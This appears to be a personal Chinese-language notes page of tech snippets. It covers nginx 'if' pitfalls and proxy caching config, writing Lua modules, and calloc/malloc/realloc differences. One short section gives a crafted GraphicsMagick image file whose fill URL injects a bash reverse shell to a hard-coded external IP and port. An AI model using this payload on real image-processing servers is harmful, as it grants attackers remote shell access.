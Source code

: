 
# nginx if 语句
类似：
```
location ~ ^/bfs/(?<bucket>[^\/]+)\/ {
  if ($request_method != GET) {
    proxy_pass http://bfs_upstream;
  }
  # normal upstream
  proxy_cache ngx_cache_mem;
  proxy_cache_valid 200 1d;
  proxy_cache_valid 302 404 1s;   # Group 1
  proxy_cache_valid 400 403 500 502 503 504 0s;   # Group 2
  proxy_cache_valid any 1d;
  proxy_cache_key $uri$is_args$args;
  add_header X-Cache "$upstream_cache_status from bfs $hostname";

  content_by_lua '
    -- ...
  '
```

官方的说法是nginx的if语句很容易出错，一般尽量少使用。
> 参见 [ifisevil](https://www.nginx.com/resources/wiki/start/topics/depth/ifisevil/#)
但像本例中这种区分method的情况，不得不使用。
而且把 = GET 的情况放在if里时还报错说 proxy_cache 不能在if里，只能换成 != GET 的情况在if里了。


# lua module
参见： [Step By Step(Lua模块与包)](http://www.cnblogs.com/stephen-liu74/archive/2012/03/28/2421283.html)

## 使用
```lua
local mod = require "mod"
mod.foo()
```

## 写module
```lua
local modname = "mod_a"
local _M = {}
_G[modname] = _M

_M.i = {r=0, i=1}  -- module内的变量
function _M.foo()
  -- do sth
end

return _M  -- 必须，不然返回boolean
```

# graphic magick 漏洞图片
xxx.jpg：
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|bash -i >& /dev/tcp/123.206.21.213/12345 0>&1")'
pop graphic-context
```

# 几种内存分类alloc小结
> 来自[calloc/malloc/realloc有什么不同？ - Milo Yip的回答](https://www.zhihu.com/question/45323220/answer/98683629)

calloc - [cppreference calloc](http://en.cppreference.com/w/c/memory/calloc) 分配内存、把内存清零。
malloc - [cppreference malloc](http://en.cppreference.com/w/c/memory/malloc) 分配内存、不把内存清零。
realloc - [cppreference realloc](http://en.cppreference.com/w/c/memory/realloc) 重新分配内存，把之前的数据搬到新内存去。

realloc(NULL, size) 等价于 malloc(size)。

calloc(num, size) 基本上等于 void *p = malloc(num * size); memset(p, 0, num * size); 但理论上 calloc 的实现可避免 num * size 溢出，当溢出时返回 NULL 代表失败，而 malloc(num * size) 可能会分配了一个尺寸溢出后的内存。

注意不要把 realloc(ptr, 0) 当作 free(ptr)，虽然在 VC 是等价的（realloc），但 C/C++ 标准说这是由实现定义的。
